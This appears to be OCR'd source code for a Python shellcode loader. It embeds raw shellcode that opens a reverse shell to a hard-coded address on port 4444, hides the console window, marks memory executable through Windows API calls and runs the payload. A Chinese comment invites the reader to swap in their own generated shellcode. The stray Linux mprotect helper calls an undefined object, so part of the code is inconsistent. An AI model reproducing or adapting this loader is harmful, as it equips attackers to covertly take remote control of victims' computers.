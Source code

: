 ```
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff"
buf += b"\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
buf += b"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\xdf\x68\x02"
buf += b"\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
buf += b"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68"
buf += b"\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08"
buf += b"\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57"
buf += b"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b"
buf += b"\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58"
buf += b"\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68"
buf += b"\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68"
buf += b"\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff"
buf += b"\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c"
buf += b"\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01"
buf += b"\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00"
buf += b"\x53\xff\xd5"
//将这段替换为自己生成的即可使用

#libc = CDLL('libc.so.6')
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
   buf = c_char_p(buffer)
   size = len(buffer)
   addr = libc.valloc(size)
   addr = c_void_p(addr)
   if 0 == addr: 
       raise Exception("Failed to allocate memory")
   memmove(addr, buf, size)
   if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
       raise Exception("Failed to set protection on buffer")
   return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()   
if whnd != 0:
      if 666==666:
             ctypes.windll.user32.ShowWindow(whnd, 0)   
             ctypes.windll.kernel32.CloseHandle(whnd)
print ".................................."*666
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                       ctypes.c_int(len(shellcode)),
                                         ctypes.c_int(0x3000),
                                         ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                    buf,
                                    ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```
